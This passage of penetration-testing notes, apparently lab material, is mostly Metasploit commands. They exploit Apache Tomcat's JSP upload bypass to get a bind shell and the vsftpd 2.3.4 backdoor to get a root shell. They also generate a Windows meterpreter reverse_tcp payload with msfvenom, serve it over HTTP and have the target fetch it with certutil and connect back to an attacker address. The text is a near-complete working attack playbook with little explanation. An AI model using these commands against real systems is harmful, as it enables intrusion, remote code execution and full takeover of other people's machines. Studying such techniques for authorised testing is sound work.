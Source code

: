 ```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a tomcat
msf6> services
msf6> search type:exploit name:tomcat_jsp

msf6> use multi/http/tomcat_jsp_upload_bypass
msf6> set payload java/jsp_shell_bind_tcp
msf6> set shell cmd
msf6> run
```

Transfer a meterpreter payload.

```bash
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.9.2 lport=1234 -f exe -o meterpreter.exe
kali@kali> python3 -m http.server 80
```

```bash
C:\Temp> certutil -urlcache -f http://10.10.9.2/meterpreter.exe meterpreter.exe
```

Create a MSF script.

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.9.2
set lport 1234
run
```

Execute the `meterpreter.exe` on the target.

### Linux : FTP

* It is frequently used as a means of transferring files to and from the directory of a web server.
* vsftpd is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.
* **vsftpd V2.3.4** is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a ftp
msf6> setg rhosts 192.195.12.3
msf6> db_nmap -sS -sV -O 192.195.12.3

msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> run

/bin/bash -i
root@victim-1> id

# Ctrl+Z to background the session
```
